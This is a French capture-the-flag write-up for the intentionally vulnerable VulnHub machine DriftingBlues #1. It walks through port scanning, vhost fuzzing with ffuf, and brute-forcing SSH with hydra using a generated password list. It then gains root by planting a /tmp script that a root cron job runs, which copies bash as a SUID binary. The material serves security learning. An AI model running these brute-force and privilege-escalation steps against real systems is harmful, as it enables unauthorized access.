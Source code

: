 # Solution du CTF DriftingBlues #1 de VulnHub

First of the name
-----------------

[DriftingBlues](https://www.vulnhub.com/entry/driftingblues-1,625/), ici le premier d'une grande lignée de VMs intentionnellement vulnérables dans l'unique but de s'amuser et apprendre, a été conçu par [tasiyanci](https://twitter.com/tasiyanci).  

```plain
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   2048 ca:e6:d1:1f:27:f2:62:98:ef:bf:e4:38:b5:f1:67:77 (RSA) 
|   256 a8:58:99:99:f6:81:c4:c2:b4:da:44:da:9b:f3:b8:9b (ECDSA) 
|_  256 39:5b:55:2a:79:ed:c3:bf:f5:16:fd:bd:61:29:2a:b7 (ED25519) 
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) 
|_http-title: Drifting Blues Tech 
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Sur le site web on peut trouver différents noms et adresses emails : *Charles Brown*, *sheryl@driftingblues.box*, *eric@driftingblues.box*.  

On trouve aussi dans la page le commentaire HTML encodé en base64 :  

```html
<!-- L25vdGVmb3JraW5nZmlzaC50eHQ= -->
```

Ce qui se décode en : */noteforkingfish.txt*  

Okaaaaaaaayyyyyyyy
------------------

Le path cité nous amène sur une page remplie de *Ook!*, *Ook?* et autres *Ook.* Connaissant déjà quelques langages de programmation ésotériques j'ai tout de suite saisi la référence mais une recherche google aurait sans doute amené les plus dubitatifs sur une explication.  

Le site *dcode.fr* dispose [d'un interpréteur](https://www.dcode.fr/langage-ook) et l'exécution du script produit l'affichage suivant :  

> my man, i know you are new but you should know how to use host file to reach our secret location. -eric

Voyons un peu les virtual hosts qui retournent une réponse différente de celle par défaut (à savoir ici une taille différente de 7710 octets) :  

```plain
$ ffuf -w /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt -u http://192.168.56.6/ -H "Host: FUZZ.driftingblues.box" -fs 7710 

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.3.1 
________________________________________________ 

 :: Method           : GET 
 :: URL              : http://192.168.56.6/ 
 :: Wordlist         : FUZZ: /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt 
 :: Header           : Host: FUZZ.driftingblues.box 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
 :: Filter           : Response size: 7710 
________________________________________________ 

test                    [Status: 200, Size: 24, Words: 1, Lines: 6] 
:: Progress: [50000/50000] :: Job [1/1] :: 2862 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```

Une fois sur le site on obtient juste le message *work in progress -eric*.  

Après beaucoup d'énumération je trouve sur ce vhost un fichier... *robots.txt*. Comme quoi un simple appel à Nuclei m'aurait fait gagné du temps, à se rappeller lors de la prochaine découverte de vhost.  

Le plus intéressant est une URL interdite qui mentionne un accès SSH :  

```plain
User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up
```

Le message :  

```plain
we can use ssh password in case of emergency. it was "1mw4ckyyucky".

sheryl once told me that she added a number to the end of the password.

-db
```

C'est toujours un plaisir de résoudre un problème avec une ligne de Python :  

```plain
$ python3 -c "[print(f'1mw4ckyyucky{i}') for i in range(10)]" > pass.txt
$ hydra -L users.txt -P pass.txt ssh://192.168.56.6
--- snip ---
[22][ssh] host: 192.168.56.6   login: eric   password: 1mw4ckyyucky6
```

Let's root
----------

Ce compte dispose du premier flag mais n'a aucune règle sudo associée. L'outil d'énumération de failles et de mauvaises configurations locales LinPEAS ne retourne rien qui vaille...  

En revanche on peut monitorer les process avec [pspy](https://github.com/DominicBreuker/pspy) et là on a quelque chose de plus intéressant :  

```plain
2022/01/19 01:25:01 CMD: UID=0    PID=20942  | /usr/bin/zip -r -0 /tmp/backup.zip /var/www/  
2022/01/19 01:25:01 CMD: UID=0    PID=20941  | /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20940  | /bin/sh -c /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20939  | /usr/sbin/CRON -f  
2022/01/19 01:25:01 CMD: UID=0    PID=20944  | sudo /tmp/emergency
```

Le dernier script mentionné est manquant :  

```plain
eric@driftingblues:~$ file /tmp/emergency 
/tmp/emergency: cannot open `/tmp/emergency' (No such file or directory)
```

Et comme il est dans */tmp* on peut le créer pour y placer par exemple le contenu suivant :  

```bash
#!/bin/bash 
cp /bin/bash /tmp/g0tr00t 
chmod 4755 /tmp/g0tr00t
```

On attend que la tâche CRON s'exécute et on a notre shell :  

```plain
eric@driftingblues:/tmp$ ./g0tr00t -p 
g0tr00t-4.3# id 
uid=1001(eric) gid=1001(eric) euid=0(root) groups=1001(eric) 
g0tr00t-4.3# cd /root 
g0tr00t-4.3# ls 
root.txt 
g0tr00t-4.3# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations! 
thank you for playing
```

Un CTF du type jeu de pistes mais suffisamment logique pour être agréable.

*Published January 19 2022 at 20 10*